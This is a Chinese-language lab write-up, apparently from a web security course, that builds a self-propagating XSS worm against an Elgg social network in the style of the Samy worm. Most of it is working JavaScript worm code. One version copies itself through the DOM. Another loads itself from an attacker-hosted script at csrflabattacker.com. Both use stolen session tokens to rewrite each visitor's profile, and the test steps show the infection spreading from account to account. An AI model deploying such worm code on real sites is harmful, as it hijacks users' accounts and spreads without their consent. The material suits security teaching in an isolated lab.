




# 实现自我传播

XSS蠕虫，当访问Samy的主页时，不仅他们自己的主页会被更改，他们的主页也会携带samy的javascript代码的拷贝。  

为了实现这一点，JavaScript恶意代码需要得到一个与自身相同的拷贝，叫自我复制。

!!! 自我复制

    一种方法是从外部获取一份自身程序的拷贝，如程序存在文件中。  
    另一种叫quine，不从外面得到任何输入，完全靠自身程序输出一份一样的拷贝。  

!!! JavaScript中实现自我传播

    1、Dom方法。从dom树中获取一份自身拷贝  
    2、链接方法。JavaScript代码可以通过链接被引入网页中，可以用script标签src属性实现。  

## Dom实现自我传播蠕虫

当一个页面加载完毕时，浏览器会把页面的内容存放在一个树的数据结构中，并提供API让JavaScript访问和
修改树中的数据。这个数据结构叫DOM。

这样需要给含有JavaScript的结点取一个名字，这样可以用document.getElementById()来找到这个结点。  
下面的代码可以实现自我复制:  
```javascript
<script id="worm">
    var strCode = document.getElementById("worm").innerHTML;
    alert(strCode);
</script>
```

!!! innerHTML

    innerHTML只能提供结点的内部内容，不包括周围的script标签。只需加上初始标签<script id="worm">,
    和结束标签</script>，就可以构成一个完全相同的恶意代码

通过以上技术，修改之前的代码：
```javascript
<script type="text/javascript" id="worm">
window.onload = function() {
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";
  
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  var desc = "&description=Samy is my hero" + wormCode;
  desc += "&accesslevel[description]=2";
  
  var name = "&name=" + elgg.session.user.name;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 47){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
</script>
```

!!! Note

    上面代码中tailTag变量之所以这样写，是为了骗过火狐浏览器，否则浏览器会认为这个字符串是js代码
    的结束标签，导致余下的代码被忽略。

测试过程：  
1、在samy主页加入上述代码。  
2、登陆boby账户，访问samy主页，boby主页被篡改  

3、登陆charlie账户，访问boby主页，charlie主页也被篡改  


## 链接方法实现自我传播蠕虫

为了把JavaScript代码包含到一个网页中，可以把整段代码放到页面中，或把代码放到一个外部的url中并把它链接到页面上。

### 构造恶意代码

```bash
vi /var/www/CSRF/Attacker/xssworm.js
```

```javascript
window.onload = function() {
  var headerTag = "<script id=\"worm\" type=\"text/javascript\"";
  var jsCode = "src=\"http://www.csrflabattacker.com/xssworm.js\">";
  var tailTag = "</" + "script>";
  
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
  var desc = "&description=yudan is my hero" + wormCode;
  desc += "&accesslevel[description]=2";
  
  var name = "&name=" + elgg.session.user.name;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  
  var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 47){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
```
注意，为了测试方便，把samy改成了yudan

### samy主页中放链接代码

```html
<script type="text/javascript" id="worm" src="http://www.csrflabattacker.com/xssworm.js"></script>
```

### 测试

alice登陆，访问samy主页，主页被修改  


再用boby登陆，访问alice，发现主页也被修改，攻击成功。

